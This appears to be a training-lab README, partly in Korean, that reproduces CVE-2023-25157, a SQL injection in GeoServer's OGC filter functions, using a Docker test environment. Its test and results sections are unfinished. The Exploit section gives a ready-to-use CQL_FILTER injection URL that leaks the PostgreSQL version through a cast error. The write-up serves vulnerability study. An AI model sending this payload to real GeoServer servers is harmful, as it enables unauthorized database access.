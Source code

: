 # GeoServer OGC Filter SQL Injection (CVE-2023-25157)

> 화이트햇 스쿨 3기(35반) -  [손예은](https://github.com/ye-nni/)
</br>

## 요약
GeoServer is an open-source software server written in Java that provides the ability to view, edit, and share geospatial data. It is designed to be a flexible, efficient solution for distributing geospatial data from a variety of sources such as Geographic Information System (GIS) databases, web-based data, and personal datasets.

In the version prior to 2.22.1 and 2.21.4, there is a SQL injection issue that was found in the filter and function expressions defined by the Open Geospatial Consortium (OGC) standards.

References:

- <https://github.com/murataydemir/CVE-2023-25157-and-CVE-2023-25158>
- <https://github.com/advisories/GHSA-7g5f-wrx8-5ccf>
</br>

## 환경 구성 및 실행
다음 명령어로 테스트 환경에서 GeoServer instance 2.22.1을 실행합니다:
```
docker compose up -d
```
서버가 시작되면 `http://your-ip:8080/geoserver`에서 기본 페이지를 볼 수 있습니다.
</br>

## 테스트
준비중
</br>

## 결과
아직 없음

## Exploit

First of all, you have to find a existing workspace that contains PostGIS datastore before you exploit the vulnerability. Vulhub's GeoServer instance already have a PostGIS datastore:

- Workspace name: `vulhub`
- Data store name: `pg`
- Feature type (table) name: `example`
- One of attribute from feature type: `name`

Exploit the server by this simple URL:

```
http://your-ip:8080/geoserver/ows?service=wfs&version=1.0.0&request=GetFeature&typeName=vulhub:example&CQL_FILTER=strStartsWith%28name%2C%27x%27%27%29+%3D+true+and+1%3D%28SELECT+CAST+%28%28SELECT+version()%29+AS+integer%29%29+--+%27%29+%3D+true
```

![](1.png)

As you can see, the version of PostgreSQL has been retrieved from GeoServer by SQL injection.
